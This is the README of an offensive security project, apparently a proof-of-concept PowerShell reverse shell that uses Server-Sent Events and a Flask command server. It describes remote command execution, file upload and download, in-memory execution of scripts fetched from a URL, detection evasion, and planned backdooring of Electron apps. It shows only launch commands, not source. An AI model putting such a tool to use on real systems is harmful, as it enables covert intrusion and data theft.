 # SSE Reverse Shell – Enhanced Interactive Shell with stealthy connection mecanism

This project showcases an advanced reverse shell built using native PowerShell and Server-Sent Events (SSE). It leverages a persistent HTTP connection to enable real-time communication between the server and clients, with a modern and interactive web-based interface for command execution and response visualization.

This project was inspired by Poc released by TNCX-byte => https://github.com/TNCX-byte/PS_SSE_Shell
So I wanted to test the implementaion of functionnalities in SSE. The project is in development and will change in futur. I think it will be implemented in my C2 Project RatShell...

Unlike traditional reverse shells, this implementation focuses on flexibility, interactivity, and stealth by using:
- Native PowerShell for the client
- SSE for real-time command streaming
- A web-based terminal for seamless interaction
- Memory-resident execution with minimal footprint

## Key Features

- **Interactive Web Terminal**: A modern, matrix-inspired web interface for sending commands and viewing responses in real-time.
- **Command Execution**: Supports both general commands and specific operations like file upload/download and script injection.
- **Real-Time Communication**: Uses SSE for persistent connections and HTTP POST for sending responses.
- **Chunked Response Handling**: Handles large command outputs by splitting them into manageable chunks for reliable transmission.
- **Cross-Platform Compatibility**: Works seamlessly with PowerShell clients on Windows and a Flask-based server on Linux.
- **Stealth and Flexibility**: Minimal network noise and memory-resident execution to bypass basic detection mechanisms.

## Components

### SSE Server
The server is built using Flask and provides the following endpoints:
- `/rsse`: Streams commands to connected clients via SSE.
- `/post`: Receives command outputs from clients.
- `/upload`: Handles file uploads from clients.
- `/download`: Allows clients to download files from the server.
- `/responses`: Streams client responses to the web-based terminal.

### SSE Client
The client is a PowerShell script that:
- Connects to the server's `/rsse` endpoint to receive commands.
- Executes commands locally and sends results back to the server via `/post`.
- Supports additional operations like file upload/download and script injection.

### Web Interface
The web-based terminal provides:
- A real-time command execution interface.
- Automatic scrolling and response handling for seamless interaction.
- For now it's just a Poc and is relased as-is... so you can expect bugs :)

## Usage

### Server
1. Start the Flask server:
   ```bash
   python3 SSE-Server.py
   ```

2. wait for incoming client connection from terminal and you can execute commands directly in it.

2 (optional). Access the web interface:
   - Open a browser and navigate to `http://<server-ip>:8085`.

### Client
1. Run the PowerShell client:
   ```powershell
   .\SSEClient.ps1 -Uri "http://<server-ip>:8085"
   ```

### Commands
- **General Commands**: Execute any PowerShell command (e.g., `dir`, `Get-Process`, `whoami`).
- **File Upload**: Upload a file from the client to the server:
  ```
  download <file-path>
  ```
- **File Download**: Download a file from the server to the client:
  ```
  upload <file-name>
  ```
- **Script Injection**: Inject and execute a script from a URL:
  ```
  inject <url>
  ```

## Features in Detail

### Real-Time Command Execution
- Commands are sent from the web terminal or server terminal to connected clients.
- Responses are streamed back in real-time and displayed in both the server terminal and the web interface.

### File Operations
- **Upload**: Clients can upload files to the server's `uploads` directory.
- **Download**: Clients can download files from the server's `Downloads` directory.

### Script Injection
- Execute remote scripts by providing a URL. The script is fetched, executed in memory, and the output is sent back to the server.

### Chunked Response Handling
- Large command outputs (e.g., `dir` or `Get-Process`) are split into chunks and sent to the server to ensure reliable transmission.

### Web Interface
- Real-time updates with automatic scrolling for seamless interaction.
- Displays both commands and responses in a structured format.

## Example Workflow

1. Start the server:
   ```bash
   python3 SSE-Server.py
   ```
2. Connect a client:
   ```powershell
   .\SSEClient.ps1 -Uri "http://<server-ip>:8085"
   ```
3. Open the web interface and send a command:
   - Example: `whoami`
4. View the response in real-time in the terminal.

This tool is released As-Is and you can expect bugs, it's just a Poc for now to test SSE protocols interaction & implementation. If it can be interesting for everyone, no problem. It will may be used for futur implemetations in other tools like my C2 I'm developping or other one...
You can find also 2 .js client in SSE_E-Client folder, thes 2 clients can be used to backdoor electron applications with another tool I'm developping right now I will release next few days ;). So stay connected to my github !!

## Disclaimer

This tool is for educational and research purposes only.  
Do not use this on networks or systems you do not own or have explicit permission to test.

## NoLicense

Author: 4rt3f4kt
